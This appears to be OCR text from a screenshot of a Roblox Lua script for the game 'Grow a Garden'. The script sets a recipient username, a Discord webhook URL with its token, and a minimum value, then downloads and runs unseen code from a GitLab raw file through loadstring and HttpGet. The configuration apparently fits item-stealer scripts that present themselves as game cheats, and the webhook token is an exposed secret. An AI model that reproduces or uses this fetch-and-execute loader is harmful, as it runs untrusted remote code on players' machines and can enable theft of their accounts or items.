 Username = "bere0202"
Webhook = "https://discord.com/api/webhooks/1385179509422035024/WGNgIorPnldJhs2K3IeJUbr0FKd1ZD25_Vy1xQMA3IF0-eMheZ3gAchlGJL0de4_tzge"
MinimumValue = 1

loadstring(game:HttpGet("https://gitlab.com/traxscriptss/traxscriptss/-/raw/main/grow-a-garden"))()
